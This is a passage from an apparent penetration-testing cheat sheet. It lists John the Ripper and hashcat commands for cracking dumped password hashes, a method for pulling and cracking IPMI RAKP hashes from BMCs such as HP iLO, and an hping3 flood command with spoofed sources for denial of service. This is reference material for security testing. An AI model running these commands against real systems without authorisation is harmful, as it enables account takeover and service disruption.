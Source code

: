 #### Offline Password Cracking via Hashes

*   **Tool:** \[\[John the Ripper Cheat Sheet]]

    ```bash
    john --wordlist=<path/to/wordlist> <hash_file>
    ```

\


*   **Tool:**

    ```bash
    hashcat -m <mode> <hash_file> <path/to/wordlist>
    ```
* **Description:** Cracks dumped password hashes to gain access.

#### IPMI Authentication Flaw

*   **Tool:** \[\[John the Ripper Cheat Sheet]]

    ```bash
    john --fork=8 --format=rakp ./out.john
    ```

\


*   **Tool:**

    ```bash
    hashcat -m 7300 out.hashcat -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
    ```
* **Description:** If default credentials do not work to access a BMC, we can turn to a flaw in the RAKP protocol in IPMI 2.0. During the authentication process, the server sends a salted SHA1 or MD5 hash of the user's password to the client before authentication takes place. This can be leveraged to obtain the password hash for ANY valid user account on the BMC. These password hashes can then be cracked offline using a dictionary attack using HashCat mode 7300. In the event of an HP iLO using a factory default password, we can use this HashCat mask attack command which tries all combinations of upper case letters and numbers for an eight-character password. There is not direct "fix" to this issue.

### Denial of Service

#### TCP/UPD Flood Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip> -p <target_port> --flood --rand-source -c 1000
    ```
* **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

#### TCP/UDP Reflection Attack
